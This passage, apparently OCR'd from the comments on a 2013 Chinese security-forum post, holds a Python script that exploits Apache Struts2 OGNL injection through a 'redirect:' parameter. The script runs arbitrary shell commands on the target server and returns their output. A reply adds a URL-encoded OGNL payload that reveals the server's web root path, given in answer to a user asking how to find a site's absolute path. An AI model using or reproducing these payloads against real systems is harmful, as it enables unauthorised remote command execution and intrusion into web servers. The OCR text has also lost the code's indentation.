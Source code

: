 def info():
print "python struts.py -u [http://baidu.com/test.action](http://baidu.com/test.action) -d whoami"

def get(url, data):
string = url + "?" + data
req = urllib2.Request(string)
response = urllib2.urlopen(req)
print response.read()

if __name__ == '__main__' and len(sys.argv) < 2:
info()
try:
opts, args = getopt.getopt(sys.argv[1:],"u:d:")
except:
sys.exit(2)
for opt, value in opts:
if opt == '-u':
url = value
elif opt == '-d':
test = value
attack="?redirect:${#a=(new java.lang.ProcessBuilder('%s')).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),#matt.getWriter().println(#e),#matt.getWriter().flush(),#matt.getWriter().close()}"%test
get(url,attack)

[亮了]()(8)
[回复](http://www.freebuf.com/vuls/?replytocom=13013#respond)
1. [![]()](http://www.freebuf.com/?author=3113) [二手玫瑰 ](http://www.freebuf.com/author/二手玫瑰) (1级) 人生如梦亦如画 []() 2013-07-17    16楼

麻烦各位大神提供爆网站绝对路径的办法。。。。
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13016#respond)

* ![]() h4ck0r []() 2013-07-17

@二手玫瑰  ?redirect%3A%24%7B%23req%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27%29%2C%23a%3D%23req.getSession%28%29%2C%23b%3D%23a.getServletContext%28%29%2C%23c%3D%23b.getRealPath%28%22%2F%22%29%2C%23matt%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23matt.getWriter%28%29.println%28%23c%29%2C%23matt.getWriter%28%29.flush%28%29%2C%23matt.getWriter%28%29.close%28%29%7D
[亮了]()(1)
[回复](http://www.freebuf.com/vuls/?replytocom=13023#respond)
* [![]()](http://www.freebuf.com/?author=7) [pnig0s ](http://www.freebuf.com/author/pnig0s)![](http://www.freebuf.com/buf/themes/freebuf/images/medals/f1.png "FB达人") (10级) 知道创宇安全工程师 []() 2013-07-17    17楼

评论里各路大神都发威了：）
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13017#respond)
* [![]()](http://www.freebuf.com/?author=1353) [元首 ](http://www.freebuf.com/author/元首) (3级)  []() 2013-07-17    18楼

路径
